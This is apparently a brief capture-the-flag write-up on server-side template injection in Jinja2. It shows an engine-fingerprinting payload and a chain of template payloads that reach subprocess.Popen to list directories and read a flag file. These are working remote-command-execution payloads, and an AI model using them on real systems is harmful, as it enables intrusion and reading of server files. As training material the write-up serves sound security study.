 # SSTI1

***Server Side Template Injection***

[Identify template engine](https://portswigger.net/web-security/server-side-template-injection) by payload ``{{7*'7'}}`` \
It's *Jinja2*

[Explore Jinja2 SSTI payloads](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

`{{ ''.__class__.__mro__[1].__subclasses__() }}` -> lists all subclasses, which has `<class 'subprocess.Popen'>` at index *356* \
`{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls /', shell=True, stdout=-1).communicate() }}` -> lists contents of root directory; `challenge` looks interesting \
`{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls /challenge/', shell=True, stdout=-1).communicate() }}` -> lists contents of directory of the web app; `flag` spotted! \
`{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat /challenge/flag', shell=True, stdout=-1).communicate() }}` -> done!
